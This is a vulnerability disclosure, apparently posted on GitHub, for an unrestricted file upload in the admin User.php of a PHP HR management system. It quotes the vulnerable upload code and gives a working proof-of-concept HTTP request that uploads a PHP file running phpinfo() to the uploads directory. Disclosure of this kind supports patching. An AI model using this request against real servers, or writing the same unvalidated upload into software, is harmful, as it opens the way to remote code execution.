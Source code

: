 ### Vulnerability file address

In line 19 of `admin/Operation/User.php`, `$image = $target_dir . basename($_FILES["website_image"]["name"]);`, the file extension is not whitelisted. Following up to line 20, `move_uploaded_file($_FILES["website_image"]["tmp_name"], $image`, the file is uploaded to the `assets/uploadImage/Candidate/` directory.

```php
<?php
error_reporting(0);
session_start();
if (isset($_SESSION['logged']) && $_SESSION['logged'] == "1" && $_SESSION['role'] == "admin") {

  require_once('../../assets/constants/config.php');

  try {
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    if (isset($_POST['btn_save'])) {
      $target_dir = "../../assets/uploadImage/Candidate/";
      $website_logo = basename($_FILES["website_image"]["name"]);
      if ($_FILES["website_image"]["tmp_name"] != '') {
        $image = $target_dir . basename($_FILES["website_image"]["name"]);
        if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {

          @unlink("../../assets/uploadImage/Candidate/" . $_POST['old_website_image']);
        } else {
          echo "Sorry, there was an error uploading your file.";
        }
      } else {
        $website_logo = $_POST['old_website_image'];
      }
```

### POC

```html
POST /CMS/php/_hr_soft/admin/Operation/User.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylKF2lkgwRJAzjm1x
Content-Length: 280

------WebKitFormBoundarylKF2lkgwRJAzjm1x
Content-Disposition: form-data; name="btn_save"

1
------WebKitFormBoundarylKF2lkgwRJAzjm1x
Content-Disposition: form-data; name="website_image";filename="888.php"

<?php phpinfo(); ?>

------WebKitFormBoundarylKF2lkgwRJAzjm1x--

```

### Attack results pictures

![image-20250130213942174](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302139219.png)

![image-20250130213916556](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501302139606.png)





